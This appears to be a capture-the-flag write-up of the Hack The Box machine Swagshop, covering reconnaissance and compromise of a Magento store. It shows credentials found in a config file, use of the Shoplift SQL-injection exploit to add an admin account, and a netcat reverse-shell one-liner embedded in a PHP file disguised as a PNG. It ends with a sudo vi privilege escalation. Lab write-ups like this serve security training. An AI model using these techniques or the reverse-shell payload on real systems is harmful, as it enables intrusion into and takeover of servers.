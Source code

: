 ```yaml
---
layout: post
title: Swagshop - 10.10.10.140
difficulty: 6
author: Andrea Melis
author_twitter_name: wild_boar
author_twitter_url: https://twitter.com/wild_boar
---
```


# USER

## Reconnaissance

### NMAP

As usual we always start with **Nmap** scanning:

<pre>root@pentestbox:~# nmap -sC -sV -oA swag 10.10.10.140

# Nmap 7.70 scan initiated Thu May 16 14:35:32 2019 as: nmap -sC -sV -p- -oA swag 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.032s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 16 14:36:21 2019 -- 1 IP address (1 host up) scanned in 49.94 seconds

</pre>

It seems that apparently only port 80 looks intersting, let's look what shows.

Appartently looks like a Magento installation.

![](/images/swagshop/port_80.png)

Let's use dirb as usual to scan some interesting files.

### DirBuster

With dirbuster and big.txt wordlist we found some interesting file such as:

<pre>
File found: /index.php - 200
Dir found: /css/ - 200
File found: /app/etc/local.xml
</pre>

Looking at local.xml it seems that there are some mysql creds which we are gonna keep it if 
required

<pre>

root
fMVWh7bDHpgZkyfqQXreTjU9
</pre>


So let's try to see if there is something intersting on magento, which is a know CMS for e-commerce solutions.

I know magescan, which is a tool to perform enumeration on such CMS, but apperently not interesting results
it found:

![](/images/swagshop/magescan.png)

So next step is to try to see if there is some knon exploits on this versions, which btw magento showed be  1.9.0.0, 1.9.0.1 

### Exploits

After few research on searchsploit and exploit-db i've found one which seems intersting. 

It's a SQL Injection on a admin path **/admin/Cms_Wysiwyg/directive/index/**, and the PoC of the exploit create a new user with
admin privileges as pointed out by the exploit

<pre>
##################################################################################################
#Exploit Title : Magento Shoplift exploit (SUPEE-5344)
#Author        : Manish Kishan Tanwar AKA error1046
#Date          : 25/08/2015
#Love to       : zero cool,Team indishell,Mannu,Viki,Hardeep Singh,Jagriti,Kishan Singh and ritu rathi
#Debugged At  : Indishell Lab(originally developed by joren)
##################################################################################################

#////////////////////////
#/// Overview:
#////////////////////////
#
#Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
#This python script developed by joren but it was having some bug because of which it was not working properly.
#If magento version is vulnerable, this script will create admin account with username forme and password forme
</pre>

The exploit worked! we just needed to change the url base from "http://10.10.10.140" to "http://10.10.10.140/index.php" because
it seems that mode_rewrite url is working.

So that's it!

<pre>

python 37977.py
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
</pre>

We can now go the admin login page and login with creds forme:forme

![](/images/swagshop/login.png)

An this is the admin panel

![](/images/swagshop/panel.png)

## Reverse Shell

We can now upload a reverse shell using the connection instance manager of Magento.

i've used LavaMagentoBD project which does exactly this, so i don't need to create
a package from scratch.

***DAMN! the vuln has been patched so we have to find another way!***

Surfing the wev i've found this amazing article with another workaround about magento.

https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

So i follow the steps i suggest.

First of all with the admin creds i allow the simlink options

System –> Configuration **THEN** Advanced –> Developer **THEN** Template Settings –> Allow Symlinks 

![](/images/swagshop/allow.png)


![](/images/swagshop/dev.png)


Magento it should add a warning, no probl of course.

Then we use a random .png image and we inject this php shell, renmaing also the png with php double extension shell.php.png

<pre>

echo '< ?php' >> shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 1337 >/tmp/f");' >> shell.php.png
echo '?>' >> shell.php.png

</pre>


So now we have to create a new thumbnail category so:

Catalog –> Manage Categories **THEN** a new one, then you give it a new, you abilitate it and then you add as a thumbnail your image:


So now finally, we can run our reverse shell.

All we need to do it's to go to the newsletter template, create a new one with the payload, and then preview it!

Catalog –> Manage Categories

And then the payload shell.php.png

Save it, and the preview it, and we have our reverse shell!


# ROOT

## Enumeration

Immediatly after we launched linenum we noticed somenthing strange in the sudoers file.

![](/images/swagshop/sudoers.png)


We are apparently able to exec as www-data /usr/bin/vi for every file in /var/www/html/

So, we can simply open with sudo a file in that folder, and exec bash from vi and .. that's it!

![](/images/swagshop/root.png)


We have a root shell!

#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :) 

